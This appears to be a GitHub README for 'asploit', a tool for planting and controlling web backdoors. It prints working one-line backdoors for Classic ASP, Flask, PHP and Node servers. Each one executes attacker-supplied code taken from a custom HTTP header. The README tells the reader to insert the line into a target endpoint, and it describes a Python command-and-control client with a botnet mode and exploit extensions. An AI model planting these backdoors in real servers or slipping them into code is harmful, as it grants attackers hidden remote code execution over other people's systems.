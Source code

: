 # asploit
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

# Backdoor
## Backdoor Genreation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
## Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
## Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
## PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
## Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
## Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).

# Client
## Help
Type `help` to list all commands in the current shell. Changes depending on whether or not you've entered a botnet or exploit shell.

## Command and Controller
The C2 runs on Python. To start, run `main.py` in the `src` folder.

## Botnet Controlling
To control multiple backdoors at once, type `botnet` to enter the botnet mode.

# Custom Backdoors/Exploits
## Loading Extensions
Load extensions using the `loadext` command before entering an exploit shell.

Run `help loadext` for more details.

## Creating Extensions
To make a custom exploit/extension, create a Python module containing a class/classes that extends the ExploitProcessor class.

View the `PHPExploitProcessor` in the `src` folder for an example of the implementation.

# Contributing
Any help in this project would be appreciated, and feel free to make pull requests for any custom extensions you create.

# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).
